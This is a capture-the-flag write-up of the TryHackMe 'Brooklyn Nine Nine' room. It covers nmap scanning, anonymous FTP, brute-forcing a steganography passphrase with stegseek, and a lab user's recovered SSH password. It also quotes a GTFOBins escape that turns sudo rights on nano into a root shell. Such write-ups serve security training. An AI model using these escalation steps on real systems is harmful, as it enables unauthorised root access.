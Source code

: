 ```yaml
---
title: THM Brooklyn writeup
description: Tryhackme Brooklyn nine nine writeup
slug: Brooklyn
authors: ["shivam"]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/95b2fab20e29a6d22d6191a789dcbe1f.jpeg
tags: ["stegnography", "nano", "stegseek"]
---
```


Hello everyone,

Today we are going to solve Brooklyn nine nine room from tryhackme. we will learn about stegseek to brute force stego password and privilege escalation with nano

![](https://tryhackme-images.s3.amazonaws.com/room-icons/95b2fab20e29a6d22d6191a789dcbe1f.jpeg)

<!--truncate-->

## Nmap results:

```c
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.2.206
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Gobuster results

--> i got nothing in gobuster :/

---

## FTP

--> Got this on ftp

```bash
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```

---

## Port 80

--> I got this page on port 80

![](Attachments/Pastedimage20211103141603.png)

--> I got this comment in source code :

![](Attachments/Pastedimage20211103141651.png)

--> SO let's do stegno on background image .

But we don't have passphrase so we have to brute force it !

==> So i done that with `stegoseek` and found the passphrase as `admin` and found one file which contains the password of `holt`

![](Attachments/Pastedimage20211103141755.png)

`holt:fluffydog12@ninenine`

--> And i got the ssh shell !

---

## Privesc

--> when i done `sudo -l` i found that we can run `/bin/nano` as root so i found one command on gtfobins

```bash
nano
^R^X
reset; sh 1>&0 2>&0
```

--> And we got the root shell !

![](Attachments/Pastedimage20211103142356.png)

---
